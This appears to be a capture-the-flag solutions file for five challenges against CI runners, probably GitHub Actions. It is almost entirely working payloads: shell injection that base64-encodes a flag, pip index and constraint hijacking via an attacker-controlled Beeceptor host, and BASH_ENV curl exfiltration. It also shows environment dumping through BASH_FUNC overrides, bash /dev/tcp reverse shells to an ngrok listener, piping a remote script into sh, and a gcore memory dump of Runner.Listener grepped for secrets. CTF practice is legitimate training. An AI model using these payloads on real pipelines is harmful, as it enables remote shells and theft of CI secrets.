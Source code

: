 # Chall 1
 
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
 
# Chall 2

## Solution 1
[PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
[Pypi PyYAML](https://pypi.org/project/PyYAML/)
[Cloudsmith](https://cloudsmith.io/~nebco/packages/)
``` bash
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```

## Solution 2
[Beeceptor](https://beeceptor.com/)
[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Configure Beeceptor :
- Add new "Mocking Rules"
- Match value: "/<file_name>.txt"
- Response body: "pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%"

``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
```

# Chall 3

## Solution 1
[Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
[Beeceptor](https://beeceptor.com/)
[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```

## Solution 2
``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```
 
# Chall 4
 
## Setup (client side)
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 
# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

 